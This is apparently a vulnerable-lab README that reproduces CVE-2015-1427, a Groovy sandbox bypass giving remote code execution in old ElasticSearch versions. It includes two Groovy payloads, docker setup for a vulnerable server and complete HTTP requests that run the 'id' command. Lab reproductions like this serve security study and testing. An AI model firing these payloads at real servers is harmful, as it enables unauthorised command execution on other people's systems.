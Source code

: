 # ElasticSearch Groovy Sandbox Bypass and Remote Code Execution (CVE-2015-1427)

[中文版本(Chinese version)](README.zh-cn.md)

ElasticSearch is a distributed, RESTful search and analytics engine.

ElasticSearch versions prior to 1.3.8 and 1.4.3 contain a vulnerability in the Groovy scripting engine that allows attackers to bypass the sandbox protection and execute arbitrary code on the server.

After [CVE-2014-3120](../CVE-2014-3120/), ElasticSearch changed its default dynamic scripting language to Groovy and added a sandbox. However, dynamic language execution remained enabled by default. This vulnerability involves:

1. A sandbox bypass
2. A Groovy code execution vulnerability

ElasticSearch supports using "sandboxed" Groovy language as a dynamic scripting engine. However, the sandbox implementation was insufficient. Two methods for command execution were discovered:

1. Lupin's method: Bypass the Java sandbox using reflection
2. Tang3's method: Use Groovy language features to execute commands directly, without using Java

Based on these approaches, we have two different POCs.

Java sandbox bypass method:

```groovy
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

Groovy direct command execution method:

```groovy
def command='id';def res=command.execute().text;res
```

References:

- <http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/>
- <https://github.com/XiphosResearch/exploits>
- <http://cb.drops.wiki/drops/papers-5107.html>
- <http://cb.drops.wiki/drops/papers-5142.html>

## Environment Setup

Execute the following commands to start a 1.4.2 version ElasticSearch server:

```
docker compose up -d
```

After the server starts, you can access the ElasticSearch server at `http://your-ip:9200`.

## Vulnerability Reproduction

Since querying requires at least one document in the index, first send the following request to add data:

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

Then send a request containing the payload to execute arbitrary commands:

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

The command execution result will be returned in the response:

![](1.png)
